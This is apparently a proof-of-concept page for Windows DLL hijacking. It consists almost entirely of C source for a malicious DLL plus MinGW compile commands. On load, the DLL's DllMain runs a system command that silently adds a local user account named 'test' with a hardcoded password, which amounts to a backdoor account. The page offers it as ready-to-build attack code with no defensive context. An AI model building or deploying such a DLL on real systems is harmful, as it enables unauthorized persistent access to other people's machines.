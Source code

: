 # DLL Hijacking POC


>##### Source code
```
#include <windows.h>
int execute();
BOOL WINAPI DllMain(HANDLE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
                        execute();
                        return TRUE;
}

int execute(){
        system("net user test Test123 /add");
        return 0;
}

```
>##### Compiling
```
For 64-bit : x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll
For 32-bit : i686-w64-mingw32-gcc hijackme.c -o hijackme.dll -shared
```
